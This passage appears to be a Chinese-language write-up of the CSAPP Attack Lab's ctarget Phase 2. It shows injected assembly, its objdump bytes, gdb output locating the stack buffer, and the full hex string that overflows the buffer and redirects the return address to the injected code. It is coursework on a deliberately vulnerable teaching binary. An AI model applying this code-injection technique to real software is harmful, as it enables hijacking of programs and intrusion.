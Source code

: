 那么，我们可以在程序中注入如下代码：

```ass
mov $0x59b997fa, %rdi
push $0x4017ec
ret
```

将上述内容保存为p1_l2.s，执行

```shell
gcc -c p1_l2.s
objdump -d p1_l2.o > p1_l2.d
```

得到如下汇编代码

```assembly

p1_l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq  
```

我们的想法是让函数返回时调用该段代码，由 Phase 1 可知通过缓冲区溢出攻击可改变函数的返回值，那么我们只需让函数跳转至写有上述代码的地址处即可。由于我们的输入均在缓冲区，通过打断点的方式查看缓冲区的位置：

```shell
(gdb) break *0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
(gdb) r -q
Starting program: /csapp/target1/ctarget -q
warning: Error disabling address space randomization: Operation not permitted
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) info registers rsp
rsp            0x5561dc78       0x5561dc78
```

可以发现执行``getbuf``第一步后的栈顶地址为 0x5561dc78，那么我们覆盖函数返回地址至此，并在此处写入我们的注入代码：

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```
